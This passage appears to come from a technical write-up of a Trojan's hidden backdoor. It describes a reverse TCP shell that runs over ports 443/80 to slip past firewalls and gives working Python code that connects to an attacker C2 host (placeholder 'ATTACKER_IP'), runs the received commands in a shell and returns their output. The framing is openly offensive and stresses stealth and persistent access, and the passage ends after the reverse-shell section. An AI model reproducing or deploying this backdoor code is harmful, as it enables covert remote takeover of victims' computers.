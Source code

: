 ## Technical Implementation: Hidden Backdoor and Remote Access  

The hidden backdoor component of the Trojan establishes a persistent, encrypted communication channel with an attacker-controlled command-and-control (C2) server. This section details the technical architecture, encryption mechanisms, stealth features, and persistence strategies employed to maintain undetected access to the compromised system.  

---

### **1. Reverse Shell Implementation**  
The backdoor uses a **reverse TCP socket** to connect to the attacker’s server, ensuring the connection originates from the victim’s machine (to bypass outbound firewall restrictions). Key implementation details include:  

#### **Socket Configuration and Command Execution**  
- **Port Selection**: Uses ports 443 (HTTPS) or 80 (HTTP) to blend with legitimate traffic.  
- **Connection Handling**:  
  ```python  
  import socket  
  import subprocess  
  import ssl  

  # Configuration (replace with attacker-controlled IP/port)  
  C2_IP = "ATTACKER_IP"  
  C2_PORT = 443  

  def create_connection():  
      s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
      try:  
          s.connect((C2_IP, C2_PORT))  
          # Establish TLS encryption (see Encryption section)  
          ssl_sock = ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_TLSv1_2)  
          return ssl_sock  
      except Exception as e:  
          return None  

  def execute_command(cmd):  
      try:  
          proc = subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)  
          output = proc.stdout.read() + proc.stderr.read()  
          return output  
      except:  
          return b"Command execution failed"  

  # Main loop  
  sock = create_connection()  
  if sock:  
      while True:  
          try:  
              cmd = sock.recv(1024).decode().strip()  
              if cmd.lower() == "exit":  
                  sock.close()  
                  break  
              result = execute_command(cmd)  
              sock.send(result)  
          except Exception as e:  
              sock.close()  
              break  
  ```  

